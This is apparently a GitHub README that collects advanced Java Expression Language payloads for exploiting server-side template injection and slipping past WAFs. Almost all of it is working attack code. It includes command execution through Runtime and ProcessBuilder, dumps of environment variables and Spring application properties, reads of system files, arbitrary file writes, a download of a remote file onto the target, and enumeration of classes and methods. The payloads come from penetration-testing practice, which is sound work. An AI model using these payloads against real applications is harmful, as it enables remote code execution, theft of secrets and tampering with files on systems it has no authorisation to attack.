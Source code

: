 # Java-EL-SSTI-Advanced
Advanced Expression Language payloads for Java based SSTI's

## Whats it about:
For some cases, regular SSTI EL payloads are not suitable, because of something like WAF, prohibition of file execution and etc, so u may not able to shot regular payloads such as:
```java
T(java.lang.Runtime).getRuntime().exec('calc')
''.class.forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec(<COMMAND STRING/ARRAY>)
''.class.forName('java.lang.ProcessBuilder').getDeclaredConstructors()[1].newInstance(<COMMAND ARRAY/LIST>).start()
```
(for more see on [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#expression-language-el) and [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#java))

You probably need to start think in another way and try gather and do as much as possible... 
So, this repository was born from payloads developed during a regular web application pentest and several others written out of boredom, feel free to push more!

## Environment and properties
```Java
T(java.lang.System).getenv().toString()
T(java.lang.System).getProperties().toString()
```
## Spring properties
```Java
T(org.springframework.core.io.support.PropertiesLoaderUtils).loadAllProperties("application.properties").toString()

"".getClass().forName("org.springframework.core.io.support.PropertiesLoaderUtils").getMethod("loadAllProperties","".getClass()).invoke("","application.properties").toString()
```

## Reading command output
```java
T(java.lang.Runtime).getRuntime().exec('whoami').getInputStream().readAllBytes()
```

## Get current path
```java
(new java.io.File("./")).getAbsolutePath()
("".getClass().forName("java.io.File").getConstructor("".getClass())).newInstance("./").getAbsolutePath()
```

## Listing files
```java
"".getClass().forName("java.io.File").getConstructor("".getClass()).newInstance("C:/Windows").listFiles()
```

## Download files
```java
T(java.nio.file.Files).copy(new java.net.URL("http://127.0.0.1:8888/test.txt").openStream(),"".getClass().forName("java.nio.file.Paths").getMethods()[0].invoke(null,"C:/Windows/Temp/test3.txt",new String[]{}))
```

## Read Files (Strings)
```java
// this one may not work beacuse of difference of java.nio.file.Paths.Get arguments from java to java
"".getClass().forName("java.nio.file.Files").getMethod("readAllLines","".getClass().forName("java.nio.file.Path")).invoke("","".getClass().forName("java.nio.file.Paths").getMethods()[0].invoke("","",new String[]{"C:/Windows/System32/drivers/etc/hosts"}))

"".getClass().forName("java.nio.file.Files").getMethod("readAllLines","".getClass().forName("java.nio.file.Path")).invoke(null,"".getClass().forName("java.nio.file.Paths").getMethod("get","".getClass().forName("java.net.URI")).invoke(null,"".getClass().forName("java.net.URI").getConstructor("".getClass()).newInstance("file:/C:/Windows/System32/drivers/etc/hosts")))

"".getClass().forName("java.nio.file.Files").getMethod("readAllLines","".getClass().forName("java.nio.file.Path")).invoke(null,"".getClass().forName("java.nio.file.Paths").getMethod("get","".getClass().forName("java.net.URI")).invoke(null,new java.net.URI("file:/C:/Windows/System32/drivers/etc/hosts")))

T(java.nio.file.Files).readAllLines("".getClass().forName("java.nio.file.Paths").getMethod("get","".getClass().forName("java.net.URI")).invoke(null,new java.net.URI("file:/C:/Windows/System32/drivers/etc/hosts")))
```

## Read Files (Bytes)
```java
// this one may not work beacuse of difference of java.nio.file.Paths.Get arguments from java to java
"".getClass().forName("java.nio.file.Files").getMethod("readAllBytes","".getClass().forName("java.nio.file.Path")).invoke("","".getClass().forName("java.nio.file.Paths").getMethods()[0].invoke("","",new String[]{"C:/Windows/System32/drivers/etc/hosts"}))

"".getClass().forName("java.nio.file.Files").getMethod("readAllBytes","".getClass().forName("java.nio.file.Path")).invoke(null,"".getClass().forName("java.nio.file.Paths").getMethod("get","".getClass().forName("java.net.URI")).invoke(null,"".getClass().forName("java.net.URI").getConstructor("".getClass()).newInstance("file:/C:/Windows/System32/drivers/etc/hosts")))

"".getClass().forName("java.nio.file.Files").getMethod("readAllBytes","".getClass().forName("java.nio.file.Path")).invoke(null,"".getClass().forName("java.nio.file.Paths").getMethod("get","".getClass().forName("java.net.URI")).invoke(null,new java.net.URI("file:/C:/Windows/System32/drivers/etc/hosts")))

T(java.nio.file.Files).readAllBytes("".getClass().forName("java.nio.file.Paths").getMethod("get","".getClass().forName("java.net.URI")).invoke(null,new java.net.URI("file:/C:/Windows/System32/drivers/etc/hosts")))

```

## Write Files (Strings)
```java
// not at uri "file:/" prefix
// change "hello" to your file content
"".getClass().forName("java.nio.file.Files").getMethod("write","".getClass().forName("java.nio.file.Path"),"".getClass().forName("[B"),"".getClass().forName("[Ljava.nio.file.OpenOption;")).invoke("","".getClass().forName("java.nio.file.Paths").getMethod("get","".getClass().forName("java.net.URI")).invoke(null,"".getClass().forName("java.net.URI").getConstructor("".getClass()).newInstance("file:/C:/Windows/Temp/qwe.txt")), "hello".getBytes(), new java.nio.file.OpenOption[] {"".getClass().forName("java.nio.file.StandardOpenOption").getField("CREATE").get(null)})

T(java.nio.file.Files).write("".getClass().forName("java.nio.file.Paths").getMethod("get","".getClass().forName("java.net.URI")).invoke(null,"".getClass().forName("java.net.URI").getConstructor("".getClass()).newInstance("file:/C:/Windows/Temp/qwe.txt")), "hello".getBytes(), new java.nio.file.OpenOption[] {"".getClass().forName("java.nio.file.StandardOpenOption").getField("CREATE").get(null)})

T(java.nio.file.Files).write("".getClass().forName("java.nio.file.Paths").getMethod("get","".getClass().forName("java.net.URI")).invoke(null,new java.net.URI("file:/C:/Windows/Temp/qwe.txt")), "hello".getBytes(), new java.nio.file.OpenOption[] {"".getClass().forName("java.nio.file.StandardOpenOption").getField("CREATE").get(null)})

```

## List packages
```java
T(java.util.Arrays).toString("".getClass().forName("java.lang.Package").getMethod("getPackages").invoke(""))

"".getClass().forName("java.util.Arrays").getMethod("toString","".getClass().forName("[Ljava.lang.Object;") ).invoke("","".getClass().forName("java.lang.Package").getMethod("getPackages").invoke("")).toString()
```

## List classes/files of package
```java
// replace org/myapplication to your /org/custom/package
"".getClass().forName("java.io.File").getConstructor("".getClass().forName("java.lang.String")).newInstance("".getClass().forName("java.lang.Thread").currentThread().getContextClassLoader().getResource("org/myapplication").getFile()).listFiles()
```

## List properties of custom class
```java
// replace org.myapplication.User to your class
"".getClass().forName("java.util.Arrays").getMethod("toString", "".getClass().forName("[Ljava.lang.Object;")).invoke(null, new java.lang.Object[]{"".getClass().forName("org.myapplication.User").getDeclaredFields()}).toString()
```

## List all class methods
```java
// replace org.myapplication.User to your class
"".getClass().forName("java.util.Arrays").getMethod("toString","".getClass().forName("[Ljava.lang.Object;") ).invoke("",new java.lang.Object[]{"".getClass().forName("org.myapplication.User").getDeclaredMethods()})
```

